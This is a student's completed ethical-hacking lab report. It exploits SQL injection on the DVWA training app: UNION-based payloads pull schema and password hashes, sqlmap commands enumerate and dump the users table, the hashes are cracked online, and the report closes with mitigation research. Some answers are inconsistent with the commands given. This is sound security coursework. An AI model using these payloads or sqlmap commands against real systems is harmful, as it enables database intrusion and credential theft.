









## Course Title: Penetration testing Course #: CS 4069

| **CS 4069** | **Ethical Hacking** | **Lab06** | **Spring 2026** |
| ----------- | ------------------- | --------- | --------------- |
| Name:       | Sarah Eid           |           |                 |
| Student ID: | S22107757           | Section:  | 1               |

**Lab - Injection Attacks**

**Objectives**

Websites that are connected to backend databases can be vulnerable to SQL injection. In a SQL injection exploit, an attacker enters malicious queries that interact with the application database. In this lab, you will exploit a web site vulnerability with SQL injection and research SQL injection mitigation.

- Part 1: Exploit an SQL Injection Vulnerability on DVWA
- Part 2: Automating SQL Injection with SQLMap
- Part 3: Research SQL Injection Mitigation

**Instructions**

**Part 1: Exploit an SQL Injection Vulnerability on DVWA**

SQL injection is a code injection technique used to exploit security vulnerabilities in the database layer of an application. These vulnerabilities could allow an attacker to execute malicious SQL commands and compromise the security of the database.

In this part you will exploit a SQL vulnerability on the DVWA.

**Step 1: Prepare DVWA for SQL Injection Exploit.**

- Open your browser and navigate to the DVWA at <http://10.6.6.13>. **_(Inside Kali VM)_**
- Enter the credentials: **admin** / **password**.
- Set DVWA to Low Security.
  - Click **DVWA Security** in the left pane.
  - Change the security level to **Low** and click **Submit**.

**Step 2: Check DVWA to see if a SQL Injection Vulnerability is Present.**

- Click **SQL Injection** in the left pane.
- In the **User ID:** field type **' OR 1=1 #** and click **Submit**.

You have entered an "always true" expression that was executed by the database server. The result is that all entries in the ID field of the database were returned.

---
**Step 3: Check for Number of Fields in the Query.**

- In the **User ID:** field type **1' ORDER BY 1 #** and click **Submit**.

---
- In the **User ID:** field type **1' ORDER BY 2 #** and click **Submit**.
  

---
- In the **User ID:** field type **1' ORDER BY 3 #** and click **Submit**.

---
Did you notice any change in the output for **_option c_**.

**_When I tried ORDER BY 3, I got an error. This means the query has only 2 columns._**

**Step 4: Check for version Database Management System (DBMS).**

In the User ID: field type **1' OR 1=1 UNION SELECT 1, VERSION()#** and click **Submit**.

---
The output **5.5.58-0+deb8u1** indicates the DBMS is MySQL version 5.5.58 running on Debian (Linux).

**Step 5: Determine the database name.**

Next, you will attempt obtain more schema information about the database.

In the User ID: field type **1' OR 1=1 UNION SELECT 1, DATABASE()#** and click **Submit**.

What is the name of the database that was found? _(Hint: see the end of the output)_

**_Database name = dvwa_**

**Step 6: Retrieve table Names from the dvwa database.**

- In the **User ID:** field type:

**1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#**

- Click **Submit**.

The output with **First Name: 1** is the table information.

What are the two tables that were found?

**_Two tables = guestbook and users_**

---
Which table do you think is the most interesting for a penetration test? And why?

**_users (because it contains login credentials)_**

**Step 7: Retrieve column names from the users table.**

You will now discover the field names in the users table. This will help you to find information that is useful for the pentest.

- In the **User ID:** field type:

**1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#**

- Click **Submit**.

The list of column names displays after the listing of user accounts in the output. The information in which two columns is of interest to use in our penetration test? Explain.

**_Interesting columns = user and password (contain login info)_**

**Step 8: Retrieve the user credentials.**

This query will retrieve the users and passwords.

- In the **User ID:** field type:

**1' OR 1=1 UNION SELECT user, password FROM users #**

- Click **Submit**.

After the list of users, you should see several results with usernames and what appears to be password hashes.

Which account could be the most valuable in our pentest? Explain.

**_Most valuable account: admin (highest privileges)_**

- Try crafting queries to display the contents of other fields in the table by varying the column names based on the names previously displayed.

What is the difference between the **user_id** and **user** fields?

**_Difference between user_id and user: user_id is a number; user is the actual username_**

**Step 9: Hack the password hashes.**

- Open another browser tab and navigate to <https://crackstation.net>. (CrackStation is a free online password hash cracker.)
- Copy and paste the password hash from DVWA into CrackStation and click **Crack Hashes**.

What is the password of the admin account?

**_Password_**

What is the password for the user pablo?

**_Letmein_**

**Part 2: Automate SQL Injection Enumeration with sqlmap on DVWA**

Use the SQL injection point already identified in DVWA to automate backend enumeration with sqlmap. The instructor-provided setup script should already have created an additional practice database, such as pentest_lab, on the DVWA backend database server.

Before you begin run the downloaded (from Blackboard) script and run using the following commands:

_chmod +x setup_sqlmap_lab.sh_

_sudo ./setup_sqlmap_lab.sh_

**Step 1: Prepare for sqlmap-based enumeration.**

- Make sure DVWA is still running and the security level is set to Low.
- Log in to DVWA in your browser and keep the session active.
- Find the PHP session value from the browser cookie and replace YOURSESSION in the commands below with the actual value.
- In the examples below, the target DVWA URL is <http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit>. If DVWA is running on a different IP address in your environment, update the URL accordingly.

**Step 2: Enumerate the backend databases using sqlmap.**

Run the following command:

sqlmap -u "http:// 10.6.6.13/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=YOURSESSION; security=low" --dbs --batch

---
Which additional practice database did sqlmap discover?

**\[11:08:19\] \[INFO\] fetching database names**

**available databases \[4\]:**

**\[\*\] dvwa**

**\[\*\] information_schema**

**\[\*\] mysql**

**\[\*\] performance_schema**

**Step 3: Enumerate the tables in the practice database.**

Run the following command:

sqlmap -u "http:// 10.6.6.13/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=YOURSESSION; security=low" -D pentest_lab --tables

---
What are the table names shown in the pentest_lab database?

**Since pentest_lab is unavailable, The tables in the dvwa database are guestbook and users.**

**  
Step 4: Enumerate the columns of the users table.**

Run the following command:

sqlmap -u "<http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit>" --cookie="PHPSESSID=YOURSESSION; security=low" -D pentest_lab -T users --columns

---
Which columns were found in the users table?

**+--------------+-------------+**

**| Column | Type |**

**+--------------+-------------+**

**| user | varchar(15) |**

**| avatar | varchar(70) |**

**| failed_login | int(3) |**

**| first_name | varchar(15) |**

**| last_login | timestamp |**

**| last_name | varchar(15) |**

**| password | varchar(32) |**

**| user_id | int(6) |**

**+--------------+-------------+**

Which two columns in the users table appear most sensitive for a penetration tester? Explain.

**The most sensitive columns are user (username) and password (login credentials).**

**Step 5: Dump the contents of the users table.**

Run the following command:

sqlmap -u "<http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit>" --cookie="PHPSESSID=YOURSESSION; security=low" -D pentest_lab -T users --dump

---
Which command did you use to dump the contents of the users table?

**The command used was sqlmap -u "URL" --cookie="..." -D dvwa -T users -dump**

What information was revealed after dumping the users table?

**Usernames and password hashes for admin, gordonb, 1337, Pablo**

**Part 3: Research SQL Injection Mitigation**

**Step 1: Conduct online research on SQL injection mitigation.**

What are three mitigation methods for preventing SQL injection exploits?

- **_Parameterized Queries (Prepared Statements): Use placeholders ? so user input is treated as data, not SQL code_**
- **Input Validation:Whitelist allowed characters (e.g., only numbers for an ID field)**
- **Stored Procedures: Pre-defined SQL code that limits what an attacker can execute**
